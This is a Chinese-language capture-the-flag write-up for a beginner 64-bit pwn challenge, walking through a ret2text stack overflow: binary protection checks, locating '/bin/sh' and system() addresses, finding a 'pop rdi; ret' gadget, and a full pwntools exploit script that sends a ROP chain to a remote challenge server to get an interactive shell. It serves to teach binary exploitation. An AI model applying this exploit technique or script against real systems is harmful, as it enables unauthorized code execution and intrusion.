 ```yaml
---
title: 基础栈溢出ret2text 组合函数
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

> 64位寄存器8个字节，传参是寄存器+栈，rdi,rsi,rdx,rcx,r8,r9按顺序依次

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 x64
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file x64                                            
x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3497b5907db0d7099f07ea1f7b3ee9ef6761c412, not stripped
                                                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=x64 
[*] '/home/kali/win/Downloads/x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
64位小端序，没有保护

## IDA反编译源码
![alt text](/images/image-5.png)

![alt text](/images/image-6.png)

没有可供直接利用的getshell函数，因此需要自己构造
溢出函数是read 且缓冲区大小是0x80h
摁下shift+F12查看字符串

![alt text](/images/image-7.png)
> 0000000000601060

存在/bin/sh 字符串及其地址，寻找system函数地址

![alt text](/images/image-8.png)
> 0000000000400560


## 传参/bin/sh给system
### 使用ROPgadget找到rdi传入参数
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary x64 --only "pop|ret" | grep "rdi"
0x00000000004007e3 : pop rdi ; ret
```
为什么是 pop rdi；ret
?
pop 是弹出栈上的值给rdi 也就是 rdi被赋值

而ret就是把 弹出栈上的值给rip 导致程序的执行跳转到栈上的某个地址

**而之前的直接填入函数地址而是因为他的位置就在函数调用结束后的返回地址，做了一个覆盖**

64位函数调用先用寄存器传参数 rdi,rsi,rdx,rcx,r8,r9按顺序依次


## 编写exp脚本
```py
from pwn import *
context(os="linux", arch='amd64')
# io = process('./x64')
io = remote("120.46.59.242",2115)

padding = 0x80 + 8 # rbp

system_addr = 0x400560
sh_addr = 0x601060

rdi_ret = 0x00000000004007e3

payload = b'a' * padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```
**为什么顺序是 a*padding; pop rdi;ret sh_addr; system_addr;**
- **先填充缓冲区覆盖当前函数的返回地址位pop rdi;ret 这里**
- **当执行pop rdi的时候，会从栈里面取走sh_addr，这时，栈里只剩system_addr;**
- **此时剩ret指令 （pop rip） 正好将rip指向system函数，完成跳转**
> 建议自己调试查看栈空间内容即可理解

> 参考
> https://blog.csdn.net/qq_31343581/article/details/119996405